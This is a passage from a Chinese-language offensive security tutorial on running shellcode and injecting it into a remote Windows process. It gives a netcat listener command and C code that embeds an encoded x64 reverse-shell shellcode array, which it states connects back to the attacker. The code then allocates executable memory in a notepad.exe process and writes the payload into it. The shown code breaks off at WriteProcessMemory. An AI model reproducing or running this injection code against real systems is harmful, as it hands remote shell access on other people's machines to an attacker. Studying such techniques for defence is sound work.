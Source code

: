 

回到x64位的shellcode -编译和执行二进制代码为我们提供了预期的反向shell:

输入 

nc -lvvp 443 

### 在远程进程中执行Shellcode

下面的代码将把shellcode注入到一个PID为5428的notepad.exe进程中，该进程将向攻击者发起一个反向shell:

```c
#include "stdio.h"
#include "Windows.h"

int main(int argc, char* argv[])
{
	unsigned char buf[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef"
		"\xff\xff\xff\x48\xbb\xa1\x88\x82\x73\xee\xc2\xdd\x4e\x48"
		"\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x5d\xc0\x01"
		"\x97\x1e\x2a\x1d\x4e\xa1\x88\xc3\x22\xaf\x92\x8f\x1f\xf7"
		"\xc0\xb3\xa1\x8b\x8a\x56\x1c\xc1\xc0\x09\x21\xf6\x8a\x56"
		"\x1c\x81\xc0\x09\x01\xbe\x8a\xd2\xf9\xeb\xc2\xcf\x42\x27"
		"\x8a\xec\x8e\x0d\xb4\xe3\x0f\xec\xee\xfd\x0f\x60\x41\x8f"
		"\x32\xef\x03\x3f\xa3\xf3\xc9\xd3\x3b\x65\x90\xfd\xc5\xe3"
		"\xb4\xca\x72\x3e\x49\x5d\xc6\xa1\x88\x82\x3b\x6b\x02\xa9"
		"\x29\xe9\x89\x52\x23\x65\x8a\xc5\x0a\x2a\xc8\xa2\x3a\xef"
		"\x12\x3e\x18\xe9\x77\x4b\x32\x65\xf6\x55\x06\xa0\x5e\xcf"
		"\x42\x27\x8a\xec\x8e\x0d\xc9\x43\xba\xe3\x83\xdc\x8f\x99"
		"\x68\xf7\x82\xa2\xc1\x91\x6a\xa9\xcd\xbb\xa2\x9b\x1a\x85"
		"\x0a\x2a\xc8\xa6\x3a\xef\x12\xbb\x0f\x2a\x84\xca\x37\x65"
		"\x82\xc1\x07\xa0\x58\xc3\xf8\xea\x4a\x95\x4f\x71\xc9\xda"
		"\x32\xb6\x9c\x84\x14\xe0\xd0\xc3\x2a\xaf\x98\x95\xcd\x4d"
		"\xa8\xc3\x21\x11\x22\x85\x0f\xf8\xd2\xca\xf8\xfc\x2b\x8a"
		"\xb1\x5e\x77\xdf\x3a\x50\xb5\xae\x7c\xfe\xbb\xb0\x73\xee"
		"\x83\x8b\x07\x28\x6e\xca\xf2\x02\x62\xdc\x4e\xa1\xc1\x0b"
		"\x96\xa7\x7e\xdf\x4e\xa0\x33\x42\xdb\xac\x40\x9c\x1a\xe8"
		"\x01\x66\x3f\x67\x33\x9c\xf4\xed\xff\xa4\x74\x11\x17\x91"
		"\xc7\x4b\xe0\x83\x72\xee\xc2\x84\x0f\x1b\xa1\x02\x18\xee"
		"\x3d\x08\x1e\xf1\xc5\xb3\xba\xa3\xf3\x1d\x06\x5e\x48\xca"
		"\xfa\x2c\x8a\x22\x8e\xe9\x01\x43\x32\x54\x28\xd2\x91\x41"
		"\x77\x57\x3b\x67\x05\xb7\x5e\xe0\xd0\xce\xfa\x0c\x8a\x54"
		"\xb7\xe0\x32\x1b\xd6\x9a\xa3\x22\x9b\xe9\x09\x46\x33\xec"
		"\xc2\xdd\x07\x19\xeb\xef\x17\xee\xc2\xdd\x4e\xa1\xc9\xd2"
		"\x32\xbe\x8a\x54\xac\xf6\xdf\xd5\x3e\xdf\x02\xb7\x43\xf8"
		"\xc9\xd2\x91\x12\xa4\x1a\x0a\x85\xdc\x83\x72\xa6\x4f\x99"
		"\x6a\xb9\x4e\x82\x1b\xa6\x4b\x3b\x18\xf1\xc9\xd2\x32\xbe"
		"\x83\x8d\x07\x5e\x48\xc3\x23\xa7\x3d\x15\x03\x28\x49\xce"
		"\xfa\x2f\x83\x67\x37\x6d\xb7\x04\x8c\x3b\x8a\xec\x9c\xe9"
		"\x77\x48\xf8\xe0\x83\x67\x46\x26\x95\xe2\x8c\x3b\x79\x2d"
		"\xfb\x03\xde\xc3\xc9\x48\x57\x60\xd3\x5e\x5d\xca\xf0\x2a"
		"\xea\xe1\x48\xdd\x82\x02\x88\x0e\xb7\xd8\xf5\xe6\x9b\xf0"
		"\x1c\x84\xc2\x84\x0f\x28\x52\x7d\xa6\xee\xc2\xdd\x4e";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;

	printf("Injecting to PID: %i", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof buf, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

	WriteProcessMemory(processHandle, remoteBuffer, buf, sizeof buf, NULL);
```